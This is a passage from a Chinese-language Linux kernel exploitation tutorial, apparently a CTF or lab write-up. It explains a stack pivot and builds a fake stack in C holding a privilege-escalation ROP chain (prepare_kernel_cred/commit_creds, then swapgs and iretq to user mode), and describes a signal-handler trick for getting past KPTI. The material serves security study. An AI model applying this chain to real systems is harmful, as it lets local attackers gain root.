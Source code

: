 ```c
    payload[off++] = user_sp;
    payload[off++] = user_ss;
```

### Stack pivot

我们再加大一些难度假设另一种情况：溢出的长度不足以写入完整的ROP链。此时，就要进行栈迁移。

我们可以找到这样的gadget

```c
0xffffffff810062dc : mov rsp, rbp ; pop rbp ; ret
```

`rbp`在我们返回的时候就已经可以控制了，所以只要申请一块内存并控制其内容就可以了。

```c
void build_fake_stack(void){
    fake_stack = mmap((void *)0x5b000000 - 0x1000, 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    unsigned off = 0x1000 / 8;
    fake_stack[0] = 0xdead; // put something in the first page to prevent fault
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = pop_rdi_ret;         // return address
    fake_stack[off++] = 0x0;                 // rdi <- 0
    fake_stack[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    fake_stack[off++] = pop_rdi_ret;
    fake_stack[off++] = 0x1; // rdi <- 1
    fake_stack[off++] = pop_rsi_ret;
    fake_stack[off++] = 0x1; // rsi <- 1
    fake_stack[off++] = cmp_rdi_rsi_jne_pop_ret;
    fake_stack[off++] = 0x0;                      // dummy rbp
    fake_stack[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    fake_stack[off++] = 0x0;                      // dummy rbx
    fake_stack[off++] = 0x0;                      // dummy rbp
    fake_stack[off++] = commit_creds;    // commit_creds(prepare_kernel_cred(0))
    fake_stack[off++] = swapgs_pop_ret; // swapgs
    fake_stack[off++] = 0x0;             // dummy rbp
    fake_stack[off++] = iretq;           // iretq frame
    fake_stack[off++] = user_rip;
    fake_stack[off++] = user_cs;
    fake_stack[off++] = user_rflags;
    fake_stack[off++] = user_sp;
    fake_stack[off++] = user_ss;
}
```

这里`0x5b000000 - 0x1000`是为了让栈有增长的空间，以顺利的执行其他函数。

## Add KPTI

有了`KPTI`用户空间页表与内核空间页表隔离开。我们从内核态直接使用`iretq`返回，没有切换页表。所以当用户态的程序想要执行时会造成段错误。这里有两种方法进行bypass：

- 执行正常返回应该执行的函数。
- 使用信号处理：在Linux中，我们可以注册信号处理函数。在`Segmentation fault`时，内核会向进程发送一个`SIGSEGV`信号。一般情况下，这个信号使程序进行异常处理，异常处理的程序在内核代码中，最终结果是杀死这个进程。如果我们注册了处理服务，内核在处理时就会回到用户态！这正达成了我们的目的。

